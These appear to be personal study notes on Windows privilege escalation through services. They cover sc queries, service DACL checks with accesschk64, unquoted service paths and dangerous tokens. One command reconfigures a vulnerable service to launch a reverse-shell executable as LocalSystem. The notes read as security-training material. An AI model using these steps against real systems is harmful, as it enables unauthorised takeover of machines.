 
# Services:
Windows services are managed by the **Service Control Manager (SCM)**. The SCM is a process in charge of **managing the state of services** as needed, checking the current status of any given service and generally providing a way to configure services.

### + check Insecure Permissions on Service Executable
	query on service to get information:
	```ps1
	# look for BINARY_PATH_NAME & SERVICE_START_NAME and check Binary for overwriting it
	C:\> sc qc apphostsvc
	# start & stop a service
	C:\> sc stop windowsscheduler
	C:\> sc start windowsscheduler
	```
	
### + Insecure Service Permissions: 	
there is a chance even if binary is well protected on DACL. we should check service DACL(not binary DACL)
```ps1
# check for service reconfiguration
accesschk64.exe -qlc VULNservice
# reconfigure the service to point to our executable. 
sc config VULNservice binPath= "C:\PATH\TO\reverseSHELL.exe" obj= LocalSystem
```

### + Unquoted Service Paths:
```ps1
# query the service and see if the executable path is unquoted (BINARY_PATH_NAME)
C:\> sc qc "vncserver"
```

### You can look for Services in Registry:
	 HKLM\SYSTEM\CurrentControlSet\Services\	
	
### + Know that: 
Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service,


# Dangerous Tokens
find all the windows tokens with their meanings [Here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants), find more about hot to exploit it [here](https://github.com/gtworek/Priv2Admin)
